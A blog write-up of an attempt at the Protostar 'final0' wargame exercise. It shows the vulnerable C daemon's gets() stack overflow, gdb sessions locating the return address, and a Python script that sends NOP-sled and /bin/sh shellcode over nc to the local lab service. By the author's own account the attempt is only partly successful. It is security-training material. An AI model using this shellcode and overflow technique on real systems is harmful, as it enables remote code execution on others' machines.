 ```yaml
---
layout: post
title:  "Protostar final-zero-fail1 challenge"
date:   2019-02-27 18:26:36 +0530
categories: exploit.education protostar final-zero-fail1
---
```

We now start with final series of protostar exercises. [final-zero][final-zero-link]

{% highlight cpp %}
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID);

  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();

  printf("No such user %s\n", username);
}
{% endhighlight %}
The network part of code is same as previous network series exercises [net-zero][net-zero-link].
The vulnerability is in `gets(buffer);` and we can overwrite `RET` to direct execution to our `shell-code` placed on the stack.
But the program also converts all ASCII in range `0x61 – 0x7a` to `toupper(buffer[i])`. So any value in our `shell-code` in this range will be changed.
We can overcome this by appending `\x00` before `shell-code` as `strlen` reads only uptil `\x00`.
Also the code converts `\n` ie ASCII `\x0a` to `0`

First we need to find start of buffer and how further its from `RET`.
{% highlight shell %}
user@protostar:~$ python -c "print 'A'*532 + '\xef\xbe\xad\xde'" | nc 127.0.0.1 2995
user@protostar:~$ su root
Password:
root@protostar:/home/user# gdb -q -c /tmp/core.11.final0.1532
Core was generated by '/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/50x $esp-600
0xbffffa08: 0xbffffa28  0xb7f0a068  0x0804b008  0xbffffa48
0xbffffa18: 0x00000201  0x00000200  0x00000000  0x00000000
0xbffffa28: 0xbffffc58  0x0804982a  0xbffffa48  0x0000000d
0xbffffa38: 0x00000200  0x00000567  0xb7e9c894  0x0d696910
0xbffffa48: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa58: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa68: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa78: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa88: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffa98: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffaa8: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffab8: 0x41414141  0x41414141  0x41414141  0x41414141
0xbffffac8: 0x41414141  0x41414141
(gdb)
{% endhighlight %}
After some manual checks i found `RET` is 532 away from buffer.
Also we see in `gdb` that buffer starts from `0xbffffa48`
Now lets create exploit code to return to our shellcode and run is against our binary.
{% highlight shell %}
user@protostar:~$ cat final0.py
sc = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
alen = 531 - len(sc)
print "\x90"*alen + "\n" + sc + "\x48\xfa\xff\xbf"
user@protostar:~$ python final0.py | nc 127.0.0.1 2995
No such user ���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������
user@protostar:~$ ls /tmp
user@protostar:~$
{% endhighlight %}
Oops. Did not work as expected. Also no core-dump generated to explore in gdb. Phew. Lets connect to process to check it otherwise.
{% highlight shell %}
user@protostar:~$ su root
Password:
root@protostar:/home/user# gdb -p `pidof final0`
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64  ../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
  in ../sysdeps/unix/sysv/linux/i386/socket.S
(gdb) set follow-fork-mode child
Current language:  auto
The current source language is "auto; currently asm".
(gdb) b *0x0804978b `to get buf address`
Breakpoint 1 at 0x804978b: file final0/final0.c, line 19.
(gdb) b *0x08049790 `to check out values copied properly`
Breakpoint 2 at 0x8049790: file final0/final0.c, line 22.
(gdb) b *0x080497c6 `to check how it was modified after 1st strchr`
Breakpoint 3 at 0x80497c6: file final0/final0.c, line 24.
(gdb) c
Continuing. -> In separte terminal we rerun `user@protostar:~$ python final0.py | nc 127.0.0.1 2995`
Breakpoint 1, 0x0804978b in get_username () at final0/final0.c:19
19  final0/final0.c: No such file or directory.
  in final0/final0.c
(gdb) x/x $esp
0xbffffa30: 0xbffffa48
(gdb) c
Continuing.
Breakpoint 2, get_username () at final0/final0.c:22
22  in final0/final0.c
(gdb) x/50x 0xbffffa48+350
0xbffffba6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbb6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbc6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbd6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbe6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbf6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc06: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc16: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc26: 0x90909090  0x00000090  0x00000000  0x00000000
0xbffffc36: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffffc46: 0x00020000  0x00000000  0x10400000  0x7ff4b7ff
0xbffffc56: 0xfc88b7fd  0x9879bfff  0x00040804  0x00000000
0xbffffc66: 0x00000000  0xfc880000
[New process 1623]
Program exited with code 0361.
{% endhighlight %}
We connect to process in root mode. Also we set gdb to follow child process. We set breakpoint before(to get buf address)/after `gets` and just before second `strchr`.
We check area around end of NOPs where our shell code should have started ie `0xbffffc26` but we see it is invalid `0000`. This maybe due to `\n` not taking further chars. I dont know. Lets instead try with passing `NULL \0` ie `\x00` as separator. We again set 3 breakpoints as above to check if things we copied properly.

(gdb) x/50x 0xbffffa48+350
0xbffffba6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbb6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbc6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbd6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbe6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffbf6: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc06: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc16: 0x90909090  0x90909090  0x90909090  0x90909090
0xbffffc26: 0x90909090  0xc0310090  0xdb3146b0  0x80cdc931
0xbffffc36: 0x315918eb  0x074188c0  0x89087189  0x0bb00c41
0xbffffc46: 0x518d198d  0x08498d0c  0xe3e880cd  0x2fffffff
0xbffffc56: 0x2f6e6962  0xfa486873  0x0000bfff  0x00000000
0xbffffc66: 0x00000000  0xfc880000
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xbffffc2b in ?? ()

Well what! We see data is copied correctly this time but it gives segfault for instruction at `0xbffffc2b`.
`0xbffffc2b` is where we wrote `\x00`. Huh. Seems our attemt to escape toupper was successfull but what gives.
I also tried giving return address direct to start of shellcode but that method is also giving some error.
Further i tried to put shellcode after my `RET` and direct `RET` to `\x60\xfc\xff\xbf`
{% highlight shell %}
user@protostar:~$ cat final0.py
sc = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
alen = 532
print "\x90"*alen + "\x60\xfc\xff\xbf" + sc
The current source language is "auto; currently asm".
(gdb) c
Continuing.
[New process 1738]
Executing new program: /bin/dash
{% endhighlight %}
Yay. We did get `Executing new program: /bin/dash` but in terminal from where python run, i am unable to run commands like `ls`. Just no output. What is going on?????

First i should not use stack to keep shellcode. It is highly unpredictable. Also i should pass data over network(changes in python).
Well i will get back to this exercise later again.

[final-zero-link]:https://exploit.education/protostar/final-zero/
[net-zero-link]:https://exploit.education/protostar/net-zero/
